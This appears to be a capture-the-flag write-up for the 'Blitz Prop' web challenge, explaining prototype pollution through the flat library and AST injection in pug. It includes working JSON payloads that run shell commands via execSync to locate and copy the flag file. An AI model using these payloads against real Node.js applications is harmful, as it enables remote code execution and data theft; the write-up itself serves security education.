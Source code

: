 # Blitz Prop

## First Look

The web page for Blitz Prop is a beautiful, futuristic looking feedback form. As the user, we are provided with a list of songs from a famous alien band called Blitz Prop and asked to choose our favorite.

![BlitzProp](images/BlitzProp.png)

There are some hints here in the songs names for those with the right insight, but we'll ignore those. Instead, the source code is available, so let's treat this like something of a code review:

```js
const path = require("path");
const express = require("express");
const pug = require("pug");
const { unflatten } = require("flat");
const router = express.Router();

router.get("/", (req, res) => {
  return res.sendFile(path.resolve("views/index.html"));
});

router.post("/api/submit", (req, res) => {
  const { song } = unflatten(req.body);

  if (
    song.name.includes("Not Polluting with the boys") ||
    song.name.includes("ASTa la vista baby") ||
    song.name.includes("The Galactic Rhymes") ||
    song.name.includes("The Goose went wild")
  ) {
    return res.json({
      response: pug.compile(
        "span Hello #{user}, thank you for letting us know!"
      )({ user: "guest" }),
    });
  } else {
    return res.json({
      response: "Please provide us with the name of an existing song.",
    });
  }
});
```

A cursory look shows that our input is 'unflattened' using the 'flat' library then checked for one of the song names as a substring. If a song is found, pug is used to process a template and return some text to display on the webpage. A quick look at the form payload reveals flattened JSON that we can fiddle with using Burp, developer tools, curl, or whatever your favorite tool is for sending HTML requests.

![BlitzProp-Request](images/bp-request.png)

## Identifying the vulnerability

The application is very simple. Node.js and Express are commonly used, robust tools for serving javascript based web applications. However, both `pug` and `flat` are interesting.

[Pug.js](https://pugjs.org/api/getting-started.html) is a templating tool. In this app, it is used for one thing: [String Interpolation](https://en.wikipedia.org/wiki/String_interpolation#JavaScript). Since string interpolation is built-in to javascript, we have reason to be suspicious here. However, the string being subsituted is hardcoded. This could be a red-herring, so let's set it aside for now and look at flat.

[Flat](https://github.com/hughsk/flat) is a tool for flattening and unflattening JSON objects. In our case, it will transform the JSON payload from our above image to:

```json
{
  "song": {
    "name": "Not Polluting with the boys"
  }
}
```

And that's all that we have available to exploit. Unflatten is the only thing that processes our user input. Since our input is being unflattened and loaded as a javascript object into `song` variable, what if we could write or overwrite other items in Node's object space?

### Prototype Pollution

[Prototype Pollution](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c) is a potent vulnerability. See the excellent medium article by Dani Akash that I linked to learn about it. Play around with it in your browser console or Node to grasp it.

Vulnerabilities to Prototype Pollution are subtle, but can result in many issues from bypassing [authorization](https://auth0.com/intro-to-iam/what-is-authorization/) to [Denial of Service (DoS)](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/) to [Remote Code Execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

### Testing our Idea

We can run a quick test to see if unflatten is vulnerable to prototype pollution using node. Let's import the `flat` library, run a payload through the `unflatten` function and see if Node's object space is polluted:

```js
Welcome to Node.js v12.13.0.
Type ".help" for more information.
> const { unflatten } = require("flat")
undefined
> const payload = {'song.name': 'Not Polluting with the boys', 'Object.__proto__.Hello': 'World'}
undefined
> unflatten(payload)
{ song: { name: 'Not Polluting with the boys' }, Object: {} }
> payload.Hello
'World'
```

Bingo! We were able to pollute the Object space so that all objects have a property called `Hello` with value `World`.

## Find the Weakness

How do we exploit this? There are no if branches to bypass in the code. The default Object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own function.

**Note:** This is because function definitions are not valid JSON and so will fail. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "RIP ⚰️"' }` but it will break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement _anywhere in our application_. Maybe Pug?..

A little bit of googling with the terms `pug prototype pollution` hands us another excellent article called [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/), this one by Beomjin Lee. In this article, we find an essentially identical setup using `pug` and `flat`, along with a deep-dive into how pug is vulnerable to [AST](https://en.wikipedia.org/wiki/Abstract_syntax_tree) Injection through prototype pollution.

### Exploit

The linked blog is kind enough to provide a payload and goes into some detail on how it works. The underlying principle is still Prototype Pollution, but its worth reviewing the Pug source code to understand why it happens. However, that is outside the scope of this write-up, so we will proceed with our exploit.

If you have a system with a public IP that you can use to get a reverse shell, you're golden, but I will offer an alternative. The base app makes all items in the path `/static` publicly available:

```js
const express = require("express");
const app = express();
const routes = require("./routes");
const path = require("path");

app.use(express.json());
app.set("views", "./views");
app.use("/static", express.static(path.resolve("static"))); // <----- Here

app.use(routes);

app.all("*", (req, res) => {
  return res.status(404).send("404 page not found");
});

app.listen(1337, () => console.log("Listening on port 1337"));
```

So, let's just move our flag file there and view in our browser 😁
Since we don't know the flag file name, we'll send two payloads. I will use Firefox dev tools to submit the payload because I'm lazy 😎

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`find / -type f -name '*flag*' > static/possible_flags.txt`)"
  }
}
```

We are presented with a server error, but the ouput is just `find` errors. Our code executed succesfully!

```log
Error: Command failed: find / -type f -name '*flag*' > static/possible_flags.txt
find: /root: Permission denied
find: /proc/tty/driver: Permission denied
find: /proc/1/task/1/fd: Permission denied
find: /proc/1/task/1/fdinfo: Permission denied
find: /proc/1/task/1/ns: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/1/map_files: Permission denied
find: /proc/1/fdinfo: Permission denied
find: /proc/1/ns: Permission denied
find: /proc/26/task/26/fd: Permission denied
find: /proc/26/task/26/fdinfo: Permission denied
find: /proc/26/task/26/ns: Permission denied
find: /proc/26/fd: Permission denied
find: /proc/26/map_files: Permission denied
find: /proc/26/fdinfo: Permission denied
find: /proc/26/ns: Permission denied
 on line 1
    at checkExecSyncError (child_process.js:621:11)
    at Object.execSync (child_process.js:657:15)
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:13:63)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:17:7)
    at /app/routes/index.js:16:81
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
```

Let's visit /static/possible_flags.txt:

![BlitzProp_Find_Error](images/bp-find-error.png)

The flag name is protected using [Security through Obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity), but not very well. Let's go ahead and snag it:

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`cp /app/flagF4jzU static/flag.txt`)"
  }
}
```

Submit the same way and check it out in the browser:

![BlitzProp_Flag](images/bp-flag.png)

Success! The flag is `CHTB{p0llute_with_sty13}`

